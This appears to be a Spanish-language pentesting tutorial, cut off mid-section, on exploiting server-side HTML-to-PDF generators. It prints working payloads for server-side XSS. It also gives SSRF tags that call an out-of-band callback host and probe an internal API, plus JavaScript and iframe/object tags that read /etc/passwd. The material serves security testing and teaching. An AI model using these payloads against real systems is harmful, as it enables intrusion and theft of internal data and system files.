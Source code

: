 ### JS

Si la creación del PDF no está correcamente sanitizada, encontraremos que en momento de la ejecución el payload se ejecutará. Esto también es conocimo como server-side XSS.

Podemos testearlo ingresando payloads como:

    <script>document.write('test1')</script>

o

    <script>document.write(window.location)</script>

### SSRF

#### TEST

Es una de las vulnerabilidades más comunes en la generación de PDFs en la web. Esto es debido a que muchas de las fuentes de estilos o imagenes necesarias para generar el PDF se encuentran en internet, por lo que 
el generador necesitará hacerles un fetch.

Podemos entonces forzar al server a hacer una request GET a una URL que nosotros nos interese.

Para probarlo solamente necesitaríamos crear una imageno un stylesheet que apunte a una URL o servidor bajo nuestro poder:

Imagen:

    <img src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest1"/>

Stylesheet:

    <link rel="stylesheet" href="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest2" >


Por supuesto, muchas de estas request van a ser de tipo BLIND, ya que no tendrán realmente qué mostrar. Para materializarlas en el PDF podríamos usar un iframe que dispare una request.

    <iframe src="http://cf8kzfn2vtc0000n9fbgg8wj9zhyyyyyb.oast.fun/ssrftest3"></iframe>

#### SSRF exploitation

Si todo va bien,  podríamos entonces aprovechar la SSRF para llegar a servicios internos o abusar de las relaciones de confianza para alcanzar secciones prohibidas dentro de la web debido a la falta de privilegios. 
O, incluso, exfiltrar datos de una API:

    <iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>


### LFI

Podemos aprovechar el  objeto XmlHttpRequests para exfiltrar contenido de archivos del sistema y volverlos a base64(esto es debido a que el contenido de algunos archivos puede romper al generador). A su vez, los generadores de PDF no suelen pensar en líneas
con lo cual, no llegaremos a leer el base64 completo por su tamaño, de esta manera deberemos agregar una funcionalidad a nuestro payload para generar estos saltos de línea:

    <script>
    	function addNewlines(str) {
    		var result = '';
    		while (str.length > 0) {
    		    result += str.substring(0, 100) + '\n';
    			str = str.substring(100);
    		}
    		return result;
    	}
    
    	x = new XMLHttpRequest();
    	x.onload = function(){
    		document.write(addNewlines(btoa(this.responseText)))
    	};
    	x.open("GET", "file:///etc/passwd");
    	x.send();
    </script>

Si el backend no ejecuta el JS, podemos probar otros payloads con etiquetas HTML:

    <iframe src="file:///etc/passwd" width="800" height="500"></iframe>
    <object data="file:///etc/passwd" width="800" height="500">
    <portal src="file:///etc/passwd" width="800" height="500">


#### Exfiltración mediante un PHP  redirector

# Continuará...

